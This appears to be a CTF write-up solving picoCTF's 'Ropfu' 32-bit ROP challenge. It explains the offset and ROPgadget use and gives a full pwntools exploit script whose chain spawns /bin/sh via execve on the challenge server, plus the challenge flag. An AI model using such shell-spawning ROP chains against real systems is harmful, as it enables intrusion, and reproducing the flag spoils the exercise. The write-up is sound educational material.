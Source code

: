 # Ropfu
 
## Challenge Description: What's ROP?

From the name of this challenge, it was pretty clear that ROP was needed to solve the challenge. Interestingly, the binary supplied was **32 bit** instead of **64 bit** in challenges that I've done before. Stitching the gadgets would be slightly different since 32 bit programs store their function parameters on the stack instead of the registers for 64 bit.

To solve the challenge, I performed the following: 
* Determined the offset of **28** from GEF
* Referred to this article on using **ROPGgadget**
* Used **--ropchain** from **ROPGgadget** to generated the payload 
* Made the following adjustments for a payload originally meant for *python2*
  * Imported python3's **pwn** library instead of python2's **struct**
  * Replaced **pack('<I', 0x080583c9)** with **p32(0x080583c9)**

The final payload is as follows: 
  
```python
from pwn import *

e = context.binary = ELF('./vuln', checksec=False)
r = remote('saturn.picoctf.net',56464)

offset = 28
p = b"A" * offset
p += p32(0x080583c9) # pop edx ; pop ebx ; ret
p += p32(0x080e5060) # @ .data
p += p32(0x41414141) # padding
p += p32(0x080b074a) # pop eax ; ret
p += b'/bin'
p += p32(0x08059102) # mov dword ptr [edx], eax ; ret
p += p32(0x080583c9) # pop edx ; pop ebx ; ret
p += p32(0x080e5064) # @ .data + 4
p += p32(0x41414141) # padding
p += p32(0x080b074a) # pop eax ; ret
p += b'//sh'
p += p32(0x08059102) # mov dword ptr [edx], eax ; ret
p += p32(0x080583c9) # pop edx ; pop ebx ; ret
p += p32(0x080e5068) # @ .data + 8
p += p32(0x41414141) # padding
p += p32(0x0804fb90) # xor eax, eax ; ret
p += p32(0x08059102) # mov dword ptr [edx], eax ; ret
p += p32(0x08049022) # pop ebx ; ret
p += p32(0x080e5060) # @ .data
p += p32(0x08049e39) # pop ecx ; ret
p += p32(0x080e5068) # @ .data + 8
p += p32(0x080583c9) # pop edx ; pop ebx ; ret
p += p32(0x080e5068) # @ .data + 8
p += p32(0x080e5060) # padding without overwrite ebx
p += p32(0x0804fb90) # xor eax, eax ; ret

# eax needs to be incremented to 11 for the execve syscall
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret

# Invoke a system call and execute our code
p += p32(0x0804a3d2) # int 0x80

r.sendline(p)
r.interactive()
```

Running the payload above produced the flag.


FLAG: `picoCTF{5n47ch_7h3_5h311_c6992ff0}`

